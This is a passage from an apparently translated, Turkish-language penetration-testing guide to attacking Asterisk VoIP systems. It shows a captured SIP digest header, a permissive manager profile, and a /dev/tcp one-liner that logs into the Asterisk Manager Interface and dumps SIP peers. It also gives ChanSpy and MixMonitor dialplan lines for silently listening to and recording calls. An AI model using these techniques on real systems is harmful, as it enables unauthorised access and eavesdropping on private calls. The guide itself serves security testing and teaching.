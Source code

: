 ```bash
Auth=Digest username="pepelux", realm="asterisk", nonce="lcwnqoz0", uri="sip:100@10.10.0.10:56583;transport=UDP", response="31fece0d4ff6fd524c1d4c9482e99bb2", algorithm=MD5
```
### Click2Call

Click2Call, bir **web kullanıcısının** (örneğin bir ürüne ilgi duyan) **telefon numarasını** tanıtmasına olanak tanır. Ardından bir ticari arama yapılır ve kullanıcı **telefonu açtığında**, kullanıcı **ajanla arama yapılıp bağlanır**.

Bunun için yaygın bir Asterisk profili şudur:
```scss
[web_user]
secret = complex_password
deny = 0.0.0.0/0.0.0.0
allow = 0.0.0.0/0.0.0.0
displayconnects = yes
read = system,call,log,verbose,agent,user,config,dtmf,reporting,crd,diapla
write = system,call,agent,user,config,command,reporting,originate
```
* Önceki profil **HERHANGİ BİR IP adresinin bağlanmasına** izin veriyor (şifre biliniyorsa).
* Daha önce belirtildiği gibi, **bir arama düzenlemek için** **okuma izinlerine gerek yoktur** ve **sadece** **yazma** için **başlatma** gereklidir.

Bu izinlerle, şifreyi bilen herhangi bir IP bağlanabilir ve çok fazla bilgi çıkarabilir, örneğin: 

{% code overflow="wrap" %}
```bash
# Get all the peers
exec 3<>/dev/tcp/10.10.10.10/5038 && echo -e "Action: Login\nUsername:test\nSecret:password\nEvents: off\n\nAction:Command\nCommand: sip show peers\n\nAction: logoff\n\n">&3 && cat <&3
```
{% endcode %}

**Daha fazla bilgi veya işlem talep edilebilir.**

### **Dinleme**

Asterisk'te, gerçekleşen konuşmaları duymak için **izlenecek uzantıları** (veya hepsini) belirten **`ChanSpy`** komutunu kullanmak mümkündür. Bu komut bir uzantıya atanmalıdır.

Örneğin, **`exten => 333,1,ChanSpy('all',qb)`** ifadesi, eğer **uzantı 333'ü ararsanız**, **`all`** uzantılarını **izleyeceğini**, yeni bir konuşma başladığında (**`b`**) sessiz modda (**`q`**) dinlemeye başlayacağını belirtir, çünkü buna müdahale etmek istemiyoruz. **`*`** tuşuna basarak veya uzantı numarasını tuşlayarak bir konuşmadan diğerine geçebilirsiniz.

Sadece bir uzantıyı izlemek için **`ExtenSpy`** kullanmak da mümkündür.

Konuşmaları dinlemek yerine, bir uzantı kullanarak **dosyalara kaydetmek** de mümkündür: 

{% code overflow="wrap" %}
```scss
[recorded-context]
exten => _X.,1,Set(NAME=/tmp/${CONTEXT}_${EXTEN}_${CALLERID(num)}_${UNIQUEID}.wav)
exten => _X.,2,MixMonitor(${NAME})
```
{% endcode %}
